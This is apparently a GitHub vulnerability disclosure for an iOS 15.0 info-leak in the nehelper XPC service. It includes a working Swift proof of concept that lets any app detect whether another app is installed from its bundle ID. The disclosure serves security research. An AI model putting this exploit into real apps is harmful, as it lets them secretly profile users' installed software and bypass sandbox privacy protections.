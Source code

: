 # nehelper enumerate installed apps 0-day (iOS 15.0)

The vulnerability allows any user-installed app to determine whether any app is installed on the device given its bundle ID.

XPC endpoint "com.apple.nehelper" has a method accessible to any app that accepts bundle ID as a parameter and returns an array containing some cache UUIDs if the app with matching bundle ID is installed on the device or an empty array otherwise.
This happens in  `-[NEHelperCacheManager onQueueHandleMessage:]` in `/usr/libexec/nehelper`.

```
func isAppInstalled(bundleId: String) -> Bool {
    let connection = xpc_connection_create_mach_service("com.apple.nehelper", nil, 2)!
    xpc_connection_set_event_handler(connection, { _ in })
    xpc_connection_resume(connection)
    let xdict = xpc_dictionary_create(nil, nil, 0)
    xpc_dictionary_set_uint64(xdict, "delegate-class-id", 1)
    xpc_dictionary_set_uint64(xdict, "cache-command", 3)
    xpc_dictionary_set_string(xdict, "cache-signing-identifier", bundleId)
    let reply = xpc_connection_send_message_with_reply_sync(connection, xdict)
    if let resultData = xpc_dictionary_get_value(reply, "result-data"), xpc_dictionary_get_value(resultData, "cache-app-uuid") != nil {
        return true
    }
    return false
}
```
